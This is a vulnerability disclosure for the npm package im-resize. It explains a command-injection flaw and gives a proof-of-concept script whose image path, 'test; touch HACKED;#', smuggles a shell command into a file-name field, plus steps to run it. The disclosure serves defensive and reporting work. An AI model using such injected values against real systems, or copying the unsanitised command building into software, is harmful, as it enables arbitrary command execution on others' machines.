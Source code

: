 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var resize = require('im-resize');
var image = {
	path: 'test; touch HACKED;#',
	width: 5184,
	height: 2623
};

var output = {
	versions: [{
		suffix: '-thumb',
		maxHeight: 150,
		maxWidth: 150,
		aspect: "3:2"
	},{
		suffix: '-square',
		maxWidth: 200,
		aspect: "1:1"
	}]
};
resize(image, output, function(error){console.log()});
```
1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:
```bash
npm i im-resize # Install affected module
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/Turistforeningen/node-im-resize/issues/20)
 - [GitHub Permalink #1](https://github.com/Turistforeningen/node-im-resize/blob/master/index.js#L115)